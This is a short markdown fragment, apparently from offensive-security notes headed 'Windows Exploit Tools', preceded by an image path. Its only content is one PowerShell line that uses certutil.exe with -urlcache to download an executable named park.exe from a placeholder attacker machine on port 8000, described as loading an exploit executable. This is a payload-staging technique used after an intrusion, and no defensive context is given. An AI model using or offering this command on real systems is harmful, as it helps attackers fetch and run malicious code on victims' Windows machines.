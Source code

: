 ## Windows Exploit Tools 


using certutil to load a exploit executive 
```powershell
certutil.exe -urlcache -f http://[ip of the attacker Machine]:8000/park.exe park.exe
```